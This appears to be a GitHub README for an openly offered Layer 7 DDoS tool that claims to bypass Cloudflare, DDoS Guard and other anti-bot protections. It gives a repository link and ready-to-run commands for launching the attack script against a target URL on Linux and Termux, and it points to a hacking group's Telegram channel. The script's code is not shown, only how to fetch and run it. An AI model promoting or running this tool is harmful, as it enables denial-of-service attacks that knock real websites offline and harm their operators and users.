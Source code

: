 # dos
DDoS Script (DDoS Panel) with Multiple Bypass ( Cloudflare UAM,CAPTCHA,BFM,NOSEC / DDoS Guard / Google Shield / V Shield / Amazon / etc.. )

# DDOS LAYER7

LAYER7 BAYPASS CloudFlare js


Requirements
------------

    Git
    Node.Js


Usage
-----

    $ git clone https://github.com/Ro0TN3T/dosv2
    $ cd dosv2
    $ apt install nodejs -y
    $ unzip node_modules.zip
    $ node tls.js https://target.com 60 1



    TEXMUX
-----

    $ git clone https://github.com/Ro0TN3T/dosv2
    $ cd dosv2
    $ pkg install nodejs -y
    $ unzip node_modules.zip
    $ node tls.js https://target.com 60 1


Updating
--------

    # tls.js
    # cf.js BAYPASS CloudFlare
    


Contact
-------

Telegram Group : [Aceh Cyber Team]


[ACT]: https://t.me/AcehCyberTeam/
